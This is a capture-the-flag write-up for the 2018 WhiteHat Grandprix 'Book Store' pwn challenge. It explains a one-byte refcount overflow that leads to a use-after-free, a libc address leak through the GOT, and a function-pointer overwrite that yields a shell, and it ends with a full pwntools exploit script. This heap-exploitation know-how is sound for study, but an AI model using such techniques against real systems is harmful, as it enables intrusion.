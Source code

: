 # Writeup for pwn 02 - Book Store - WhiteHat Grandprix 2018 Qualifiers

## The Challenge

We are given a "book store" service, which allows us to add, edit, remove and print out books.

The book structure is as follows:

```C
typedef struct book{
    book* nextBook;
    void* pBrief;
    char title[0x20];
    char book_idx;
    char refcount;
    void* print_func;
};
```
The `pBrief` member is a pointer to a `malloc()`d memory region (size is dependant on the user).

When adding a book, we also have the option to make a reference from that book to other books, and the book that **receives** the reference gets it's `refcount` field incremented.
This can be seen in the following code-snippet inside the `add_book()` function:

```C
unsigned __int64 add_book()
{
   ...
   ...
    if ( reference_book_title )
    {
      current_book = list_of_books;
      running_idx = 0;
      while ( current_book )
      {
        v0 = (signed __int64)current_book->title;
        if ( !strncmp(&reference_book_title, current_book->title, 0x20uLL) )
        {
          new_book->book_idx = running_idx;
          ++current_book->refcount;
          break;
        }
        ++running_idx;
        current_book = (struct book *)current_book->next_book;
      }
    }
    ...
    ...
 }
 ```

Also, when adding a book, we have the option to make it a best-selling book. There is a global `best_book` variable that is stored in the data segment, and is pointing to the best selling book. 

This global `best_book` also increments the book's `refcount` due to it also pointing to the book.

## The Vulnerability

As seen above, the `refcount` member is **only a BYTE in size**, also, there are no checks whatsoever whether it overflows.

When adding a **best selling** book, the program checks if a best-selling book already exists, and if so, it decrements the original book's `refcount` member, and checks if it's 0, if it is, it calls `free()` to free the `pBrief` memory, and the book struct itself afterwards, this can be seen in the following code snippet (inside the function `best_selling()`):

```C
book *__fastcall best_selling(book *a1)
{
...
  if ( best_book )
  {
    --best_book->refcount;
    best_book->print_func = (__int64)print_normal;
    if ( !best_book->refcount )
    {
      free((void *)best_book->pBrief);
      free(best_book);
    }
  }
 ...
 ...
}
```

If we can get the `refcount` of a best-selling book to overflow to be **1** and then *change a best-selling book*, then that book would get freed (also it's `pBrief` member), but would not be removed from the linked list that exists due to the `book* next_book` member in the `book` struct.

This could theoretically grant us a UAF primitive, which is easily exploitable due to the fact that the size of `pBrief` is controlled by us, so we can make it to be the same size as the `book` struct, and achieve a perfect overlap!

## The Leak

To achieve a reliable exploit, we also need an info-leak. This info-leak is very trivial due to the UAF primitive, and the fact that there is a function that prints the details of the books!

To get an info-leak we just need to get a UAF-ed book `pBrief` to overlap with a newly created `book` struct. If the `pBrief` has the same size as the struct, we can just leak the entire `book` struct! Also, we can modify the `pBrief` of the newly created `book` to make it point to `malloc()`'s GOT entry, and then leak the address of `malloc()` in libc when we print the data of the UAF-ed book!

## The Exploit

After leaking, we can easily modify the `print_func` function pointer using the UAF-ed book's `pBrief`, to make it point to a shell one gadget and then easily pop a shell.

Modifying an in-use book's `print_func` is as easy as changing the `pBrief` of the UAF-ed book to just match what we want :)

After doing so, when we trigger the `print_func` for that same book, it will execute `system("/bin/sh")` :D

Basically - once we have that UAF, leaking and exploiting is as easy as modifying the fields of an in-use `book` struct, using the UAF-ed `pBrief` :)

## Exploit Code

```Python
from pwn import *

r = remote("pwn02.grandprix.whitehatvn.com", 8005)

def rc():
    r.recvuntil("choice:")

rc()

def addBook(title, briefSize, brief,referenceTitle="",bestSelling=False):
    r.sendline("1")
    r.recvuntil("Title:")
    r.sendline(title)
    r.recvuntil("size:")
    r.sendline(str(briefSize))
    r.recvuntil("brief:")
    r.sendline(brief)
    r.recvuntil("title:")
    r.sendline(referenceTitle)
    r.recvuntil("(Y/N)")
    if bestSelling:
        r.sendline("Y")
    else:
        r.sendline("N")
    rc()

def removeBook(title):
    r.sendline("3")
    r.recvuntil("Title:")
    r.sendline(title)
    rc()

addBook("first", 10, "CCCC","CCCC", bestSelling=False)

addBook("AAAA",0x3a,"A"*0x30,"AAAA",bestSelling=True)

for m in range(255):
    addBook("abc"+"A"*m,10,"BBBB","AAAA", bestSelling=False)

addBook("newBook", 10, "newBook", "newBook", bestSelling=True)

removeBook("first")


MALLOCGOT = 0x601fd0
ONE_GADGET = 0x10a38c

addBook("newBook2", 58, "\x00"*8+p64(MALLOCGOT)+"F"*8, "newBook2", bestSelling=False)

r.sendline("4")

r.recvuntil("FFFFFFFF|")

leak = r.recvline()

mallocLeak = int(leak.strip()[::-1][4:][:6].encode('hex'),16)
rc()

log.info("malloc leak @ 0x%x" % mallocLeak)

LibcBase = mallocLeak - 0x97070
log.info("libc base @ 0x%x" % LibcBase)

nextPayload = "AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFAA" + p64(LibcBase+ONE_GADGET)

r.sendline("2")

r.recvuntil("title:")
r.sendline("newBook2")

r.recvuntil("title:")
r.sendline("pwn")

r.recvuntil("size:")
r.sendline("58")

r.recvuntil("brief:")

r.sendline(nextPayload)

r.interactive()
```
